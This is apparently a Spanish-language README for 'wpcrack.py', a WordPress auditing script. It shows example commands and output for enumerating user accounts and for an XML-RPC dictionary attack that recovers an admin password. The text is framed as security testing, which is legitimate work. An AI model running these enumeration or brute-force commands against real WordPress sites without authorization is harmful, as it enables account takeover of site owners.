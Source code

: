 wordpress-security
==================

<h3>wpcrack.py</h3>

<p>
Script para auditar la seguridad de un wordpress. Funcionalidades actuales:
<ul>
<li>Enumeración de usuarios tanto por GET como por POST.</li>
<li>Ataque de diccionario utilizando el servicio XML-RPC.</li>
</ul>
</p>
<p>
Ejemplo de enumeración de usuarios con id menor o igual a 10 utilizando peticiones POST:
<pre>
$ python wpcrack.py --quiet --url http://target/ enumerate -m POST
[+] User found (uid: 4): theboss
[+] User found (uid: 3): user2
[+] User found (uid: 2): user1
[+] User found (uid: 1): admin
</pre>
</p>
Ejemplo de ataque de diccionario a la cuenta de admin mostrando también las peticiones erróneas:
<pre>
$ python wpcrack.py --url http://192.168.0.30/wordpress/ bruteforce -u admin -w dict.txt[-] The password '1234admin' doesn't match
[-] The password '1234password' doesn't match
[-] The password 'password' doesn't match
[-] The password 'pass1234' doesn't match
[-] The password 'adminstrator' doesn't match
[-] The password '123456' doesn't match
[-] The password '1234' doesn't match

[+] Username: admin
[+] Password: admin
[+] Profile : administrator
</pre>
<p>
</p>
<p>Agradecimientos por sus sugerencias a J. M. Fernández, @TheXC3LL</p>

